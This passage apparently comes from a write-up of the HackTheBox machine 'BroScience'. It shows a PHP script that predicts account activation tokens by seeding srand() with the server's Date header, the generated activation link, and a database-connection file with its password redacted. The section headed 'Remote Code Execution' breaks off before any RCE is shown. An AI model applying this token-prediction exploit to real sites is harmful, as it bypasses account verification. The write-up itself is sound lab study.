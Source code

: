 ```http
HTTP/1.1 200 OK
Date: Tue, 31 Jan 2023 00:40:12 GMT
Server: Apache/2.4.54 (Debian)
...
```

I used that time to generate a token and activate my account.

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$time = strtotime('Tue, 31 Jan 2023 00:40:12 GMT');
srand($time);
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo 'https://broscience.htb/activate.php?code=' . $activation_code . "\n";
```

I ran the script and used the generated link

```bash
$ php generateCode.php
https://broscience.htb/activate.php?code=OqxSuRjhkh02FEDHXHtPeTLu5PJ8z2fo
```

![Account Activated](/assets/images/BroScience/AccountActivated.png "Account Activated")

## Remote Code Execution

I logged into the site with my activated user. I looked around, I could modify my account and add comments under exercises. I tried sending XSS and SSTI payloads, but it did not work.

I kept looking at the source code. The file `db_connect.php` contained database credentials. 

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "REDACTED";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
